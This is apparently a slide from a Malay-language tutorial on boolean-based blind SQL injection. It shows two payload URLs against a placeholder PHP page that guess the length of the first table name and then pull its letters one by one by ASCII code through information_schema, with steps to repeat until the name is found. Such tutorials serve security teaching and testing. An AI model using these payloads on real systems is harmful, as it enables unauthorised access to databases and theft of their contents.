

# Guessing Table Name and String Length
Payload yang digunakan untuk test String Length, jika TRUE maka itulah string length untuk table:

http://domain.com/php?id=1' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 6 --+
*contoh di atas ini adalah untuk test string length untuk table pertama iaitu nombor ‘0’

Selepas dah dapat string length untuk table, kita kena extract ascii code supaya kita dapat table name. Jika TRUE, maka itulah ascii code untuk huruf pertama. Repeat benda sama untuk next huruf sehingga dpt table name :

http://domain.com/php?id=1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) = 115 --+
*contoh di atas ini adalah untuk huruf pertama ‘1’ dalam table pertama ‘0’ yang mana return TRUE untuk ascii code ‘115’
DFM_Rekrut